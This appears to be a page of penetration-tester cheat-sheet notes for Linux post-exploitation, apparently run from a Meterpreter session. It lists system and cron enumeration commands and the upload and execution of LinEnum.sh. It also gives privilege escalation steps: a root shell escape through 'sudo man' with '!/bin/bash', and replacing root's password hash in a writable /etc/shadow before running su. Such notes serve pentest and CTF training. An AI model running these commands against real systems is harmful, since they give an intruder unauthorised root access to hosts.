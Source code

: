 ```bash
m> shell
$ hostname
$ cat /etc/issue
$ cat /etc/*release
$ uname -a
$ env
$ lscpu
$ df -h
$ lsblk | grep sd
$ dpkg -l
```

##### Processes & Cron Jobs

```bash
m> ps
m> pgrep <process>
$ ps aux
$ top
```

```bash
# cron jobs
$ crontab -l
$ ls -al /etc/cron*
```

##### Automated

```bash
> upload LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

#### Privilege Escalation

```bash
# list command I can run
sudo -l
# /usr/bin/man can be run as root
sudo man ls
!/bin/bash
```

```bash
# simple local enum
whoami
cat /etc/passwd
groups
groups <user>
find / -not -type l -perm -o+w 2>/dev/null
# /etc/shadow is writable
openssl passwd -1 -salt abc <new_password>
# edit /etc/shadow
root:<hash>:[...]
su
```
